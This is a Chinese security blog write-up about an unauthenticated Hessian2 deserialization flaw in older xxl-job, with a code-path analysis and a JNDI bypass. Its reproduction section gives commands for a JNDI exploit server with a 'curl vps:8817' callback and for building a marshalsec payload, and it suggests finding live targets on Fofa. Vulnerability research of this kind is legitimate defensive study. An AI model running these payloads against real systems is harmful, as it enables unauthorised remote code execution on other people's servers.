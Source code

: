 ```yaml
---
title: xxl-job api 未授权 Hessian2 反序列化
url: https://xz.aliyun.com/t/8456?time__1311=n4%2BxuDgDBDyDnDfxYqwxBqDwp0YeHe%2Bweh%2B%2BD&alichlgref=https%3A%2F%2Fwww.google.com%2F
clipped_at: 2024-03-26 17:39:14
category: default
tags: 
 - xz.aliyun.com
---
```


# xxl-job api 未授权 Hessian2 反序列化

## 前言

​ 最新版有师傅已经给出 POC, 配置执行器，新建任务对关联服务器执行 `shell` 命令，但是比较蛋疼的是可能关联服务在内网，无法直接从公网攻击。

​ 链接：[https://github.com/jas502n/xxl-job](https://github.com/jas502n/xxl-job)

**本文主要针对 xxl-job 低版本 api 接口存在 Hessian2 反序列化，可以直接攻击调度中心。**

## 测试环境

xxl-job 2.0.2

Jdk: 8u191

Linux

## JobApiController#api

在 version`<`2.0.2 版本中，`JobApiController#api` 中调用 `invokeAdminService` 处理请求数据。且设置了造成 `@PermessionLimit(limit=false)` 访问该接口不需要鉴权

[![](assets/1711445954-4269187cb9af1bbb828ee9d8bcee8c89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029025631-4af6c5bc-194f-1.png)

直接单步跟进 `com.xxl.job.admin.core.schedule.XxlJobDynamicScheduler.invokeAdminService`\=>`com.xxl.rpc.remoting.net.impl.servlet.server.ServletServerHandler.handle` 方法中，调用 `parseRequest` 处理 `request` 对象

[![](assets/1711445954-03f9c8aff25bdb0bcf629cab2232712d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029025650-55f31146-194f-1.png)

继续跟进，调用 `readBytes` 读取请求中的数据，最终是调用 `Hessian2` 反序列化 `requestBytes`.

[![](assets/1711445954-ca5085dc401189a5bbb70eebfea3cbea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029025700-5c19bed0-194f-1.png)

## JNDI Bypass

参考：[https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

在测试时候总需要一个比较稳定的 POC，高版本 JDK 对 JNDI 注入进行限制即限制远程类加载，表现在如 RMI/LDAP 服务收到请求，HTTP 服务无响应。

绕过的思路是：在 CLASSPATH 中找到工厂类，对引用的 Reference 属性添加危险方法或属性，该危险方法也需要在 CLASSPATH 中存在。

原文作者利用 Apache Tomcat 中的 `org.apache.naming.factory.BeanFactory` 类，结合 `javax.el.ELProcessor` 执行任意代码。赶巧的是 `xxl-job` 基于 `Spring` 框架，底层是利用 `tomcat` 服务器。

[![](assets/1711445954-f5d93ea210fb5c62c3ed636cb95d8462.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029030207-1369fd66-1950-1.png)

## 复现

现成的 JNDI Bypass 利用工具已经有师傅写好，可以直接拿来用

[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

```plain
# 启动服务
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 0.0.0.0 -C "curl vps:8817"

# 生成 payload
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor [rmi 服务] > ~/Desktop/test13.ser
```

Fofa 上找个 xxl-job, 具体指纹访问 api 会有如下报错。

[![](assets/1711445954-b4a3bb3cdc5d1950c433ff67bd333450.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029025728-6d19d846-194f-1.png)

利用如下

[![](assets/1711445954-72cfe66e1fe2348f498987fbfc41325f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029030009-ccd88930-194f-1.png)

# 参考链接

[https://www.xuxueli.com/xxl-job/](https://www.xuxueli.com/xxl-job/)

[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

[https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
